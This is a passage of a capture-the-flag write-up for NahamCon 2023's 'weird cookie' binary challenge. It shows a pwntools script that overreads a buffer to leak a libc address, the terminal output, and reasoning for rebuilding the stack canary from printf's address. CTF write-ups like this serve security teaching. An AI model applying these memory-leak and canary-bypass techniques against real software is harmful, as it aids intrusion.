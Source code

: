 First we wait until the program asks for input. Then we send `56 characters` (55 + 1 of the line break), just to get to the position where the address of `__libc_start_main` is stored.

You may wonder why I have not made a leak of the canary. Basically because we don't need it, since it is composed by a hardcoded variable xored with the printf address, we can always create it when we need it, since we have both.

After sending the input, we receive three lines, in a second you will see why. We run the above exploit using `python3 exploit.py`.

```bash
$ python exploit.py                              
[+] Starting local process '/home/kali/ctf/nahamcon2023/weird-cookie/weird_cookie_patched': pid 274218
b'\n'
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n'
b'\x87\x1cbp8\x7f\n'
[*] Stopped process '/home/kali/ctf/nahamcon2023/weird-cookie/weird_cookie_patched' (pid 274218)
```
{: .nolineno }

We can ignore the result of the first two `recvline()` since it only shows our input, what we want is the third output, which is the one with the address of `__libc_start_main`.
Well, it is not exactly `__libc_start_main`, you have to add the padding that IDA has shown us before, which can be seen here:

```bash
00007FFF481E6B48  00007FAD97021C87  libc_2.27.so:__libc_start_main+E7
```
{: .nolineno }

Okay, to continue where we left off, we need to collect the address that you see in the output and pass it to a format that we can work with:

```python
[.. code above..]

p.recvline()
p.recvline()

leak = u64(p.recv(6).ljust(8, b"\x00"))
info("Leaked address :: " + hex(leak))
```

We remove the unnecessary prints, read the output with the address and adjust it to the size of a 64bit address. If we re-launch the exploit:

```bash
$ python exploit.py
[+] Starting local process '/home/kali/ctf/nahamcon2023/weird-cookie/weird_cookie_patched': pid 279878
[*] Leaked address :: 0x7f62d9e21c87
[*] Stopped process '/home/kali/ctf/nahamcon2023/weird-cookie/weird_cookie_patched' (pid 279878)
```
{: .nolineno }

Perfect! We now have the address in a format we can work with.
